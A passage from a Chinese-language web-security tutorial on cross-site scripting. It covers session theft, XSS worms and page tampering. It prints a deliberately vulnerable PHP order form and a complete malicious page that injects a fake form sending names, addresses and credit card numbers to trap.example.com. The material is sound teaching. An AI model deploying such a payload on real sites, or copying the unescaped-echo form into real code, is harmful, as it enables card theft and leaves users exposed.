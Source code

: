 如此这样，如果用户登录了存在隐患的网站后又浏览了恶意页面，那么就会中了 XSS 的招从而使自己的会话 ID 通过邮件发送给攻击者，攻击者就会利用得到的会话 ID 伪装成其他用户来肆意妄为。

### 2.3 通过 JavaScript 攻击

上面的例子是攻击者用 JavaScript 读取到了用户的 Cookie 值，然而，事实上利用 JavaScript 实施的攻击却远不止如此，一个典型案例就是利用 XSS 制造的蠕虫病毒。这些蠕虫病毒能够收集到大量的用户个人信息或伪装他人发布信息，从而形成潜在的巨大风险。

### 2.4 篡改网页

上面解说的攻击手段中，所攻击的网站仅限于支持会员登录的网站，其实，没有登录功能的网站同样也会遭受 XSS 攻击，如下例所示。

下面是新手机的预购网站，该网站由于存在 XSS 漏洞，因此能够对网站中的 HTML 元素进行添加/更改/删除，或者更改表单发送的目标：

<img src="https://notebook-img-1304596351.cos.ap-beijing.myqcloud.com/img/image-20220716113438245.png" alt="image-20220716113438245" style="zoom:60%;" />

网站脚本的主要内容如下，由于该页面兼任输入页面和编辑页面，因此各个输入框都有初始值，而 XSS 漏洞就源于此：

```php
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<HTML>
<HEAD><TITLE>全新收集预约</TITLE></HEAD>
<BODY>
<FORM action="" METHOD=POST>
姓　　名<INPUT size="20" name="name" value="<?php echo @$_POST['name']; ?>"><BR>
住　　所<INPUT size="20" name="addr" value="<?php echo @$_POST['addr']; ?>"><BR>
电话号码<INPUT size="20" name="tel" value="<?php echo @$_POST['tel']; ?>"><BR>
内　　容<INPUT size="10" name="kind" value="<?php echo @$_POST['kind']; ?>">
数量<INPUT size="5" name="num" value="<?php echo @$_POST['num']; ?>"><BR>
<input type=submit value="申请"></FORM>
</BODY>
</HTML>
```

以下 HTML（43-902.html）是对该预约网站进行 XSS 攻击的恶意网页，页面上通过 CSS 将攻击需要的表单提交按钮伪装成了链接的样子：

```html {8,10}
<html>
<head><title>使用信用卡预约全新手机</title></head>
<body>
现在可以使用信用卡预约手机，赶紧下单吧。
<BR>
<form action="http://example.jp/43/43-002.php" method="POST">
<input name="name" type="hidden" value='
    "></form><form style=top:5px;left:5px;position:absolute;z-index:99;background-color:white action=http://trap.example.com/43/43-903.php method=POST>请使用信用卡支付预购定金<br>姓　　名<input size=20 name=name><br>地　　址<input size=20 name=addr><br>电话号码<input size=20 name=tel><br>内　　容<input size=10 name=kind>数　　量<input size=5 name=num><br>信用卡号<input size=16 name=card>信用卡有效期<input size=5 name=thru><br><input value=申请 type=submit><BR><BR><BR><BR><BR></form>
'>
<input style="cursor:pointer;text-decoration:underline;color:blue;border:none;background:transparent;font-size:100%;" 
                type="submit" value="手机预约中心">
</form>
</body>
</html>
```
